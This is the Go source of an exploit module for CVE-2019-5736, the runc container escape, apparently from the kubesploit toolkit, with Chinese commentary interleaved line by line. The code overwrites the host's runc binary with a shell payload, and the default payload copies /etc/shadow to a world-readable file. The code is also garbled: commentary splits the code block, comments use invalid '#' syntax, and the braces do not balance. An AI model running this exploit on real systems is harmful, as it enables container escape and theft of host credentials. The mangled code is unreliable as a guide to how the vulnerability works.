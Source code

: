 # `kubesploit\data\modules\sourcecode\go\CVE-2019-5736\main.go`

```
package main

// Implementation of CVE-2019-5736
// Created with help from @singe, @_cablethief, and @feexd.
// This commit also helped a ton to understand the vuln
// https://github.com/lxc/lxc/commit/6400238d08cdf1ca20d49bafb85f4e224348bf9d

import (
	"fmt"
	"io/ioutil"
	"os"
	"strconv"
	"strings"
)

// This is the line of shell commands that will execute on the host
//var payload = "#!/bin/bash \n cat /etc/shadow > /tmp/shadow && chmod 777 /tmp/shadow"

func mainfunc(payload string){
```

注释：
- `package main`：声明这个文件属于main包
- `// Implementation of CVE-2019-5736`：说明这段代码是对CVE-2019-5736的实现
- `// Created with help from @singe, @_cablethief, and @feexd.`：感谢@singe、@_cablethief和@feexd的帮助
- `// This commit also helped a ton to understand the vuln`：这个提交也帮助了很多理解这个漏洞
- `// https://github.com/lxc/lxc/commit/6400238d08cdf1ca20d49bafb85f4e224348bf9d`：提供了一个链接，指向帮助理解漏洞的提交
- `import (`：引入需要的包
- `func mainfunc(payload string){`：定义了一个名为mainfunc的函数，参数为payload字符串
- `var payload = "#!/bin/bash \n cat /etc/shadow > /tmp/shadow && chmod 777 /tmp/shadow"`：这是一个注释掉的shell命令，将会在主机上执行
// 如果 payload 为空，则设置默认的 payload 为一个读取 /etc/shadow 文件内容并保存到 /tmp/shadow 的命令
// 如果 payload 不为空，则去除首尾空白字符，并在其前面加上 #!/bin/bash \n
if payload == "" {
    payload = "#!/bin/bash \n cat /etc/shadow > /tmp/shadow && chmod 777 /tmp/shadow"
} else {
    payload = strings.TrimSpace(payload)
    payload = "#!/bin/bash \n" + payload
}

// 首先用 /proc/self/exe 的解释器路径覆盖 /bin/sh
// 创建 /bin/sh 文件并写入 #!/proc/self/exe
fd, err := os.Create("/bin/sh")
if err != nil {
    fmt.Println(err)
    return
}
fmt.Fprintln(fd, "#!/proc/self/exe")
err = fd.Close()
if err != nil {
    fmt.Println(err)
    return
}
fmt.Println("[+] Overwritten /bin/sh successfully")
	// 打印提示信息，告知用户正在运行 CVE-2019-5736 的利用程序，建议使用 "docker exec" 命令进入容器
	fmt.Println("[*] Exploit for CVE-2019-5736 is running, try \"docker exec\" to the container")
	// 循环遍历所有进程，查找包含 runcinit 的命令行的进程
	// 这将是由 runc 创建的进程
	var found int
	for found == 0 {
		// 读取 /proc 目录下的所有文件，获取进程 ID
		pids, err := ioutil.ReadDir("/proc")
		if err != nil {
			fmt.Println(err)
			return
		}
		// 遍历进程 ID
		for _, f := range pids {
			// 读取进程的命令行内容
			fbytes, _ := ioutil.ReadFile("/proc/" + f.Name() + "/cmdline")
			fstring := string(fbytes)
			// 如果命令行包含 "runc"，则打印找到的进程 ID
			if strings.Contains(fstring, "runc") {
				fmt.Println("[+] Found the PID:", f.Name())
				// 将找到的进程 ID 转换为整数类型
				found, err = strconv.Atoi(f.Name())
				if err != nil {
					fmt.Println(err)
					return
				}
	}
	}
	}

	// 使用进程ID获取runc在主机上的文件句柄
	var handleFd = -1
	for handleFd == -1 {
		// 注意，你不需要使用O_PATH标志来使漏洞利用工作
		// 打开进程的可执行文件，获取文件句柄
		handle, _ := os.OpenFile("/proc/"+strconv.Itoa(found)+"/exe", os.O_RDONLY, 0777)
		// 如果文件句柄大于0，则表示成功获取文件句柄
		if int(handle.Fd()) > 0 {
			handleFd = int(handle.Fd())
		}
	}
	// 打印成功获取文件句柄的消息
	fmt.Println("[+] Successfully got the file handle")

	// 现在我们有了文件句柄，让我们写入runc二进制文件并覆盖它
	// 它将保持可执行标志
	for {
		// 打开文件句柄，准备写入
		writeHandle, _ := os.OpenFile("/proc/self/fd/"+strconv.Itoa(handleFd), os.O_WRONLY|os.O_TRUNC, 0700)
		// 如果文件句柄大于0，则表示成功打开文件句柄
		if int(writeHandle.Fd()) > 0 {
# 打印成功获取写入句柄的消息
fmt.Println("[+] Successfully got write handle", writeHandle)
# 将 payload 写入到 writeHandle 中
writeHandle.Write([]byte(payload))
# 返回
return
# 注释掉的代码段，定义了一个名为 main 的函数，其中包含了一个名为 payload 的变量，以及一个调用 mainfunc 函数的注释
```